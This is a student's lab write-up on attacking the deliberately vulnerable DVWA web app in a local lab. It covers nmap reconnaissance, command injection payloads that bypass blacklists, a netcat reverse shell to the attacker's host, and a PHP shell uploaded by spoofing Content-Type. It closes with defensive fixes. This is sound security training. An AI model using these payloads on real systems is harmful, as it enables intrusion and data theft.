 Tutorial 4: Server-Side Web Vulnerabilities
===========================================

Gathering information on `dvwa`
-------------------------------
We are exploiting a web application hosted on `dvwa`. As such, we want to gather the following information:
1. `dvwa`'s IP address
2. The operating system it's running
3. The web server software (and version) it's using to serve content
4. The version of PHP being used to execute PHP scripts hosted on the web server

This can be done using `nmap`:
1. I tried `nmap -sP 10.6.66.1/24`, like in the previous lab to try and find `dvwa`'s IP. However this only revealed 10.6.66.1 (DHCP server) and 10.6.66.64 (`kali_vm` or ourselves). That's cause I didn't launch `dvwa` (I might be slightly retarded). After launching it, I identified its IP as **10.6.66.42**.
2. To identify the OS, I used `nmap -O 10.6.66.42`, which provided the following relevant information:
```
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel.:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
```
This identifies the OS as anything between Linux 3.2 and 4.9.
3. `nmap -sSV 10.6.66.42` was used to perform a scan of the popular TCP ports and identify their versions:
```
PORT    STATE SERVICE VERSION
80/tcp  open  http    Apache httpd 2.4.10 ((Debian) PHP/5.6.29-0+deb8u1)
111/tcp open  rpcbind 2-4 (RPC #100000)
MAC Address: 08:00:27:05:A6:4D (Oracle VirtualBox virtual NIC)
```
This not only identified the web server software as **Apache 2.4.10**, but also identified the PHP version as **5.6**

### **Questions**
1. The way `nmap` determines a host's operating system is that it sends specific tcp packets and fingerprint the responses using TCP/IPS fingerprinting. The Linux 3.2 - 4.9 OS must send out the same response, and as such it can't distinguish between them.
2. Another way to gain information about the operating system can be using the version provided by `nmap`'s TCP scan. We can see that Apache is running on Debian. The '+deb8u1' indicates that it's Debian 8 (also called "jessie"), see [**here**](https://unix.stackexchange.com/questions/119158/why-do-some-debian-packages-have-a-deb7u2-suffix).
3. An administrator of `dvwa` could setup a firewall to block connections from certain IP addresses. *Check solutions when they're released*

Finding vulnerabilities in `dvwa`
---------------------------------
After connecting to the `dvwa` webpage, we are told to use the *Command Injection* or *File Upload* sections and exploit a vulnerability present in the source code to find a hidden file.

### **Command Injection**
#### *Security Level: low*
Looking at the source code, we can see the following lines of interest:
```PHP
$target = $_REQUEST[ 'ip' ]; // Extracts input we provide to the prompt in the webapp
$cmd = shell_exec( 'ping  -c 4 ' . $target ); // Directly inserts the input into a shell command
```
Looking at this, if we insert a `;` (shell command seperator), `&` (makes preceding command run in background) or `&&` (runs succeeding command sequentially), we can insert another shell command afterwards to be run. To start with, I probed using `; ls -la`, which printed the web-app's working directory on the webpage.

A more interesting exploit that can be done with this is opening a [**reverse-shell**](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/), which essentially gives us a shell in our host computer that executes commands on the target computer. I set it up as follows:
1. Run `nc -lvp 42069` on `kali-vm` (or your attacker computer), where 42069 is the desired TCP port we will be running the connection over.
2. Trick `dvwa` (or victim) into running `nc 10.6.66.64 42069 -e /bin/bash`, where `10.6.66.64` is `kali-vm`'s IP and `42069` is the port we are listening on.
3. In the terminal where you ran netcat on your attacker computer you now have a bash terminal inside the victim!

From here I used the [**locate**](https://linuxize.com/post/locate-command-in-linux/) command as follows: `locate -i secret`, which returns all filenames which contain 'secret' (`-i` makes it case invariant). This identified the secret file in `/home/csn/THIS_IS_THE_SECRET_FILE.txt`. I used `cat` to check the file contents and copied it onto my local machine. MISSION SUCCESS!

*N.B. - I tried to use `scp` but I don't think ssh is working on `dvwa`*

### **File Upload**
#### *Security Level: low*
I now want to find the hidden file again without any of the knowledge I've gathered from the command injection. Looking at the source code we see the following lines of interest:
```PHP
if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
}
else {
    // Yes!
    echo "<pre>{$target_path} succesfully uploaded!</pre>";
}
```
Since the page doesn't check the filetype of our upload, we can simply upload a php script and run it. I created [**find_secret.php**](find_secret.php), which looks for the secret file in the same methodology as in the previous section.

After uploading the file, we are shown where it's stored, and navigating to `http://10.6.66.42/dvwa/hackable/uploads/find_secret.php`, we can see the results of the script.

### **Command Injection**
#### *Security Level: medium*
On this level, the source code has added a blacklist:
```PHP
// Set blacklist
$substitutions = array(
    '&&' => '',
    ';'  => '',
);
```
A string replacement is performed on the user input:
`$target = str_replace( array_keys( $substitutions ), $substitutions, $target ); `

Looking at the blacklist, we can still execute arbitrary commands using `&`, as this isn't on the blacklist, or more creatively using `&;&`, as the `;` is deleted.

#### *Security Level: high*
On this level, the blacklist has been expanded:
```PHP
// Set blacklist
$substitutions = array(
    '&'  => '',
    ';'  => '',
    '| ' => '',
    '-'  => '',
    '$'  => '',
    '('  => '',
    ')'  => '',
    '`'  => '',
    '||' => '',
);
```
The first thing I noticed was that the blacklist banning the pipe `|` operator also included a space in the match case. This meant that if there isn't a space in the command the character won't be removed. Note that the `-` being removed makes it much harder to set up a reverse shell using the command we used before. However, we can still get some limited functionality. Some more advanced exploitation can be found [**here**](https://www.lastbreach.com/blog/dvwa-unintended-command-injection-high).

### **File Upload**
#### *Security Level: medium*
In this version of file upload, the type of the file is checked as follows:
```PHP
// Is it an image?
    if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
        ( $uploaded_size < 100000 ) )
```
Where `$uploaded_type = $_FILES[ 'uploaded' ][ 'type' ]; `. An important thing to note is that the `$_FILES[ 'uploaded' ][ 'type' ]` information is encoded as part of the HTTP message, and not the file extension. Using the firefox developer tools, we can switch to the network tab. We can first try uploading the [**reverse_shell.php**](reverse_shell.php) file, which would allow us to open a reverse shell on the web server. We can see that this request is denied, as the content type is not an image. However, if we select this packet, we can select the 'edit and resend' option and manually change the Content-Type from `application/x-php` to `image/jpeg`. Note that the field to change is actually in the request body, with the request header having the Content-Type `multipart/form-data`, which is used to include the file in the data as part of the POST request.

### **Questions**
1. The command injection vulnerabilities in DVWA could be fixed quite easily by using the `escapeshellarg()` PHP command around the user input that is used inside the `shell_exec()` function. This function ensures every meta-character in a string will be escaped and the string will be added a quote around it, so that it is safely read as a single safe argument (essentially sanitizing our input). Another good thing to do (as shown in the *impossible* difficulty), is to validate the input to be a specific IP address, and rejecting any inputs that don't match that.
2. For file upload, the extension of the file being uploaded can be checked from the filename as follows:
```PHP
$uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
$uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
```
The file extension itself could be checked against valid image options, which would prevent .php scripts from being uploaded. The problem is that this still allows PHP scripts to be included as part of the image meta-data. We must therefore also strip any metadata by re-encoding the image. Finally, session tokens can be generated and checked by the server to prevent CSRF (Cross-Site Request Forgery) attacks, which ensures the HTTP request is legitimately generated via the application's user interface.

